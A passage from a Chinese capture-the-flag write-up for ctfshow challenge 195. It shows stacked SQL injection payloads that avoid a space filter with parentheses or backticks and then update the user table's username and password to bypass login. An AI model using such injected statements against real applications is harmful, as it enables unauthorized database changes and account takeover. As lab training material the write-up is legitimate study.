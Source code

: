 ## 堆叠注入

### 195

首先已经提示说明堆叠注入 ，那如果平时怎么想到堆叠注入呢 ，当过滤了联合注入的union select且无法绕过时就可以去考虑这个注入方法![截图](961ffce1f1646e2010eaa08f63e121e2.png)

最后一个if告知我们要登录成功才能拿到flag，显然就是想办法登录

但是我们不知道用户名和密码，但是我们通过堆叠注入，写入更新语句，将用户名和密码修改

但是这里空格被过滤，以及其等替也是，所以可以选择括号包裹或者反引号包裹执行

```
设置用户名为1
1;update(ctfshow_user)set(username)=1
1;update`ctfshow_user`set`username`=1
设置密码
1;update(ctfshow_user)set(pass)=1
然后 1 1登录即可
```

### 196
